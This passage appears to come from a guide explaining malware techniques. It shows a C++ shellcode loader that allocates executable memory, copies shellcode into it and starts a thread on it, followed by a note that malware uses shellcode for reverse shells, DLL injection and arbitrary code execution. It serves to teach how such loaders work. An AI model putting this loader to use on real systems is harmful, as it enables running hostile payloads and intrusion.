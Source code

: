 ```cpp
LPVOID execMemory = VirtualAlloc(NULL, payloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(execMemory, shellcode, payloadSize);
CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)execMemory, NULL, 

0, NULL);
```

- Use Case in Malware: Shellcode is often used in exploits to run small payloads, such as spawning a reverse shell, injecting malicious DLLs, or executing arbitrary code in the context of a vulnerable process.